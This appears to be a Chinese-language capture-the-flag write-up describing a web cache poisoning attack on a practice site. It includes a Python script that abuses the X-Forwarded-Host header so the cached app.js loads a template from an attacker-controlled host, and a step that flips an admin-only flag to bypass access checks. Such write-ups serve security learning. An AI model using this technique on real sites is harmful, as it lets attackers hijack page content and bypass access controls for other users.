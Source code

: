 修改:

```
{"admin_only":true,"length":"22 Hours, 17 Minutes","name":"[REDACTED]","year":2018}]}
```

将`true`改为`false`.可以看到在页面上显示出了结果。

在观察相应头部:

```
HTTP/1.1 200 OK
...
Cache-Control: no-cache
X-Varnish: 157274709
Age: 0
Via: 1.1 varnish-v4
Accept-Ranges: bytes
Connection: keep-alive
```

> 如果来自Apache的响应是可缓存的，Varnish会将其存储以便更快地响应未来的请求。
>
> https://docs.acquia.com/acquia-cloud/performance/varnish/

X-Forwarded-Host:

> X-Forwarded-Host (XFH) 是一个事实上的标准首部，用来确定客户端发起的请求中使用 Host 指定的初始域名。 反向代理（如负载均衡服务器、CDN等）的域名或端口号可能会与处理请求的源头服务器有所不同，在这种情况下，X-Forwarded-Host 可以用来确定哪一个域名是最初被用来访问的。

上面这些归结起来就是当服务器进行缓存时它会将客户端的请求转发到XFH指定的host上去。

  现在再回过头看看我们已有的资料。我们得知main.mst是模板文件，它会利用``等对admin身份进行判断，如果我们能够劫持掉这个模板文件，使她绕过admin就可以获得到完整的项。

  我们先来找到main.mst缓存的最大时间(max-age)，我们可以带着`X-Forwarded-Host`不停的请求`/cdn/app.js`，如果`fetch('//71aabdeb3d708872c6e00e066ae48b2669834df7.hm.vulnerable.services/cdn/main.mst')`能被我们控制到`fetch('my_server/cdn/main.mst')`上就成功的完成了劫持。

  我们可以使用下面的脚本验证一下：

```python
# -*- coding: utf-8 -*-
import requests
X_Forwarded_Host = '1.2.3.4' 
while True:
    resp = requests.get("http://71aabdeb3d708872c6e00e066ae48b2669834df7.hm.vulnerable.services/cdn/app.js", headers={'X-Forwarded-Host': X_Forwarded_Host})
    print resp.headers
    if X_Forwarded_Host in resp.text:
        print resp.text
        break
```

结果:

```
{'Content-Length': '1575', 'Access-Control-Allow-Headers': 'X-Forwarded-Host', 'Access-Control-Max-Age': '21600', 'Age': '0', 'Server': 'gunicorn/19.9.0', 'Connection': 'keep-alive', 'X-Varnish': '157377770 157377768', 'Via': '1.1 varnish-v4', 'Date': 'Wed, 19 Sep 2018 01:00:24 GMT', 'Access-Control-Allow-Origin': '*', 'Access-Control-Allow-Methods': 'HEAD, OPTIONS, GET', 'Content-Type': 'application/javascript', 'Accept-Ranges': 'bytes'}
var token = null;

Promise.all([
    fetch('/api/movies').then(r=>r.json()),
    fetch(`//1.2.3.4/cdn/main.mst`).then(r=>r.text()),
    new Promise((resolve) => {
        if (window.loaded_recapcha === true)
            return resolve();
```
